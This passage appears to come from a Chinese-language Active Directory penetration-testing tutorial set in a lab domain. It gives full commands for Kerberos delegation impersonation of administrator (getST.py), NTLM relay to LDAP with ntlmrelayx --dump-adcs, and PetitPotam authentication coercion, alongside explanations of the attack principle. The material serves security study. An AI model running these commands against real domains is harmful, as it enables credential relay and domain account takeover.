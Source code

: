 ```shell
python3 getST.py -spn cifs/USER01.hack.lab -impersonate administrator hack.lab/CPT001\$:123.com -dc-ip 20.20.20.5
```

![x1UN8J.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-d381190eba00f2045bdee444cecc0795f0841c4e.png)

0x03 转储AD CS注册服务和证书模板信息
=======================

> \--dump-adcs

攻击原理
----

通过 LDAP 获得域的 ADCS 配置（注册服务和证书模板，以及它们的访问权限），以便能够在没有域账户的情况下知道 ADCS 中继的目标服务器和模板。

网络证书注册服务在其默认配置中容易受到 NTLM Relay 的影响，允许攻击者请求认证他们中继的用户或机器的证书并接管他们的账户

攻击流程
----

1. 找到网络注册服务的地址  
    检查DCs上是否安装了 AD CS 网络注册服务 ```shell
    curl xx.xx.xx.xx/certsrv/ -I
    ```

检查由域的TLS服务提供的TLS证书中的信息

查看本地机器账户的证书

```powershell
Get-ChildItem Cert:\LocalMachine\Root\
```

确定了AD CS的ip为 20.20.20.6

2. 设置监听器  
    使用 ntlmrelay 作为中继监听器  
    参数 --dump-adcs 用于转储AD CS注册服务和证书模板信息
    
    ```shell
    python3 ntlmrelayx.py -debug -t ldap://20.20.20.5 --dump-adcs --remove-mic
    ```
3. 强制NTLM认证
    
    ```shell
    python3 PetitPotam.py -u spiderman -p 123.com -d hack.lab 20.20.20.100 20.20.20.6
    ```
    
    ![x1UavR.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-010646de8f1cb30f14b029b6ce253cc71d0eea62.png)
4. 获得域内信息  
    在 F2016.hack.lab 主机上存在一个注册服务，任何经过认证的用户都可以在上面申请证书。可以获取到允许使用模板的用户有哪些  
    ![x3TyqI.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-2d11838e5ee2823ba1c673edb8459fd2b0725c9d.png)

其次还通过LDAP对域内进行信息收集，并在本地保存了关键信息  
![x1UU29.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-7be5364ecc0e651f9e3c0e874b77719560cf4fdf.png)
